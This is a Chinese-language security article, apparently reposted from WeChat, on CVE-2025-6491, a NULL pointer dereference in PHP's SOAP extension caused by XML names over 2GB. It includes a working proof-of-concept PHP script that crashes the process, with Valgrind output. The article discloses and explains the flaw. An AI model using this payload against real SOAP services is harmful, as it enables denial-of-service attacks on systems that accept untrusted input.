> **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg2NTk4MTE1MQ==&mid=2247487548&idx=1&sn=7b0fb2f3107df101675679504bbb0c10

#  PHP 漏洞 CVE-2025-6491（SOAP DoS）  
 TtTeam   2025-07-08 06:55  
  
**CVE-2025-6491：通过巨大的 XML 命名空间在 PHP SOAP 中取消引用空指针**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB3YFpQO35SANASm3MzJK2ia5Gp5Q257iaFDzibEHrGXQSTBP5Z9hCCCzdux47jjkiavZcwoxB5ewVEDNA/640?wx_fmt=png&from=appmsg "")  
  
该漏洞由卡塔尔计算研究所的 Ahmed Lekssays 发现，当 PHP SOAP 扩展处理大于 2GB 的完全限定 XML 名称时，该漏洞会影响该扩展。  
  
公告中写道：“如果使用大于 2G 的完全限定名称创建 SoapVar 实例，这将导致空指针取消引用，从而引发分段错误。 ”  
  
该缺陷存在于 PHP 使用 libxml2 实现的 SOAP 机制中，该机制与过长的 XML 命名空间前缀交互。当前缀超过最大 int 值时，会导致 xmlNodeSetName() 静默失败，从而使 XML 节点处于无效状态。这会导致后续序列化过程中触发分段错误。  
  
使用 str_repeat(“A”, 0x7fffffff) 的简单 PHP 脚本会导致 SOAP 操作期间崩溃：  
  

```
<?php
ini_set('memory_limit', '6144M');
// 2 GB prefix to overflow int (INT_MAX = 2147483647)
$hugePrefix = str_repeat(&#34;A&#34;, 0x7fffffff);
// This is the local part of the XML name
$localName = &#34;Element&#34;;
// This will be passed to xmlBuildQName(prefix: hugePrefix, ncname: localName)
$soapVar = new SoapVar(
    &#34;value&#34;,
    XSD_STRING,
    null,
    null,
    &#34;{$hugePrefix}:{$localName}&#34; // Triggers xmlBuildQName
);
$options = [
    'location' => 'http://127.0.0.1/', // localhost dummy
    'uri' => 'urn:dummy',
    'trace' => 1,
    'exceptions' => true,
];
try {
    $client = new SoapClient(null, $options);
    $client->__soapCall(&#34;DummyFunction&#34;, [$soapVar]);
} catch (Exception $e) {
    echo &#34;Caught Exception: &#34; . $e->getMessage() . &#34;\n&#34;;
}
?>
```

  
  
执行时，PHP 进程因崩溃而终止：“ Valgrind 确认‘在地址 0x0 处的大小 1 的读取无效’。”  
  
这使得该漏洞特别容易受到拒绝服务 (DoS) 攻击，特别是在接受不受信任输入的 SOAP 公开 API 或 Web 服务中。  
  
